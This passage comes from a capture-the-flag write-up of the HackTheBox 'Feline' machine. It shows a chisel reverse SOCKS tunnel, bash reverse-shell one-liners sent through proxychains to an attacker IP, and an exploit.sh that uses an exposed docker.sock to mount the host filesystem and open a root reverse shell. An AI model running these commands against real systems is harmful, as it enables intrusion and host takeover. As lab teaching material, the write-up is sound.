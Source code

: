 ```sh
./chisel client 10.10.14.20:8000 R:socks
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-10-HackTheBox-Feline/2021-10-10-HackTheBox-Feline%2011:39:07.png)

I change my `proxychains.conf` file

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-10-HackTheBox-Feline/2021-10-10-HackTheBox-Feline%2011:39:45.png)

We run the script we found and it's vulnerable

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-10-HackTheBox-Feline/2021-10-10-HackTheBox-Feline%2011:44:41.png)

Now, just get a reverse shell

```sh
proxychains python3 exploit.py --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.20/555 0>&1"'
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-10-HackTheBox-Feline/2021-10-10-HackTheBox-Feline%2011:49:40.png)

We read the `todo.txt`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-10-HackTheBox-Feline/2021-10-10-HackTheBox-Feline%2011:50:26.png)

# Escaping The Container

After some hard enum we found two posts [1](https://www.redtimmy.com/a-tale-of-escaping-a-hardened-docker-container/) and [2](https://dejandayoff.com/the-danger-of-exposing-docker.sock/).

We see some good information about escaping container docker in the .bash_history

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-10-HackTheBox-Feline/2021-10-10-HackTheBox-Feline%2012:08:03.png)

And start looking for some vulns to escape it. We found some writeups with good explanations also.

This one is simpler, which explains the vulnerability in docker. I found [this](https://eslam3kl.medium.com/hack-the-box-feline-802bdcd0fd38) writeup very useful. And as I'm focused in python script to get the initial acess I'll not lost my time explaining the vuln here.

exploit.sh

```sh
#!/bin/bash
pay="bash -c 'bash -i >& /dev/tcp/10.10.14.20/8888 0>&1'" 
payload="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"$pay\\\"\"]"
response=$(curl -s -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$payload, \"Binds\": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create)  
revShellContainerID=$(echo "$response" | cut -d'"' -f4)     
curl -s -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/$revShellContainerID/start                               
sleep 1
curl --output - -s --unix-socket /var/run/docker.sock "http://localhost/containers/$revShellContainerID/logs?stderr=1&stdout=1"
```
